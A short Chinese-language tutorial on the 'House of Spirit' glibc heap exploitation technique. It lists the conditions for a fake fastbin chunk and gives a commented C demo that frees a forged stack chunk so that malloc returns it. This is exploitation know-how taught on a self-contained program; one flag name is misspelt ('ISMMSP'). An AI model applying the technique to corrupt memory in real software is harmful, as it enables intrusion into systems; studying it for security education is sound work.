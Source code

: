 ## 利用方法
House of spirit的思想就是伪造一个chunk来让free（）处理，再次分配，就得到了目标区域的写权限。
## fake chunk
需要满足以下条件：
- ISMMSP位不能为1，以跳过mmap处理
- 地址对齐
- 大小在fastbin的范围内
- `2*SIZE_SZ < next chunk < av->system_mem`
- 不能被double free

## 示例代码
```c#
#include <stdio.h>
#include <stdlib.h>
int main()
{
fprintf(stderr, "This file demonstrates the house of spirit attack.\n");
fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
malloc(1);
fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
unsigned long long *a;
// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);
fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
fake_chunks[1] = 0x40; // this is the size
fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
// fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
fake_chunks[9] = 0x1234; // nextsize
fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
a = &fake_chunks[2];
fprintf(stderr, "Freeing the overwritten pointer.\n");
free(a);
fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```





